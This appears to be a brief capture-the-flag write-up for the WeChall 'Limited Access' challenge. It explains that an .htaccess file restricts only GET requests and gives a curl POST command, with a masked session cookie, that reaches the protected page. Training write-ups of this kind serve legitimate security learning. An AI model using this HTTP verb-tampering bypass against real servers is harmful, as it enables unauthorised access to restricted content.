 # [Limited Access](https://www.wechall.net/challenge/wannabe7331/limited_access/index.php)

So he tried to secure his site with `.htaccess`. We get to see the contents of his `.htaccess` 
and we see he is only limiting GET requests. So let's POST!


`curl 'https://www.wechall.net/challenge/wannabe7331/limited_access/protected/protected.php' -X POST -H 'Cookie: WC=11XXXXXX-XXXXX-XXXXXXXXXXXXXXXX'`

Solved.
